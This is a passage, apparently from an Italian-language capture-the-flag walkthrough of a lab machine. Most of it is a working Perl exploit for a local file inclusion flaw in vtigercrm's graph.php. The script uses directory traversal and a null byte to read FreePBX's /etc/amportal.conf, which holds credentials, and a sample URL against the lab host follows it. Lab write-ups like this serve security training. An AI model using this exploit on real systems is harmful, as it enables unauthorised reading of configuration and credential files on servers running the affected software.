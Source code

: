 ```bash
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

use LWP::UserAgent;
print "\n Target: https://ip ";
chomp(my $target=<STDIN>);
$dir="vtigercrm";
$poc="current_language";
$etc="etc";
$jump="../../../../../../../..//";
$test="amportal.conf%00";

$code = LWP::UserAgent->new() or die "inicializacia brauzeris\n";
$code->agent('Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)');
$host = $target . "/".$dir."/graph.php?".$poc."=".$jump."".$etc."/".$test."&module=Accounts&action";
$res = $code->request(HTTP::Request->new(GET=>$host));
$answer = $res->content; if ($answer =~ 'This file is part of FreePBX') {

print "\n read amportal.conf file : $answer \n\n";
print " successful read\n";

}
else {
print "\n[-] not successful\n";
        }   
```

Visitando al pagina `https://10.10.10.7//vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`  ci rendiamo conto che l'applicazione è decisamente vulnerabile. 

![](../zzz_rev/attachments/beep3.png)

